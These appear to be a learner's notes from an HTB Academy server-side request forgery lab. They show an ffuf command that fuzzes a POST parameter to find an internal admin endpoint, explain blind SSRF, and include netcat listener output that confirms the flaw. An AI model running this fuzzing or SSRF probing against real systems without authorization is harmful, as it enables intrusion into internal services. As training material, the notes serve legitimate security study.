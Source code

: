 >[!Example]
>The academy exercise for this section:

- Same previous website, same entry point:

![](Pasted%20image%2020250221101506.png)

![](Pasted%20image%2020250221101707.png)

- I'll use the message marked in red as error message to fuzz for the endpoint:
	- I added the host to my known ones because it didn't work without doing it

```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.96.96/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"

[redacted]
admin       [Status: 200, Size: 361, Words: 55, Lines: 16, Duration: 205ms]
```

![](Pasted%20image%2020250221103108.png)

# Blind SSRF

In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called `blind` SSRF vulnerabilities because we cannot see the response. As such, all of the exploitation vectors discussed in the previous sections are unavailable to us because they all rely on us being able to inspect the response. Therefore, the impact of blind SSRF vulnerabilities is generally significantly lower due to the severely restricted exploitation vectors.

## Identifying Blind SSRF

The sample web application behaves just like in the previous section. We can confirm the SSRF vulnerability just like we did before by supplying a URL to a system under our control and setting up a `netcat` listener:

```shell
gitblanc@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 32928
GET /index.php HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

However, if we attempt to point the web application to itself, we can observe that the response does not contain the HTML response of the coerced request; instead, it simply lets us know that the date is unavailable. Therefore, this is a blind SSRF vulnerability:

![](Pasted%20image%2020250221103152.png)
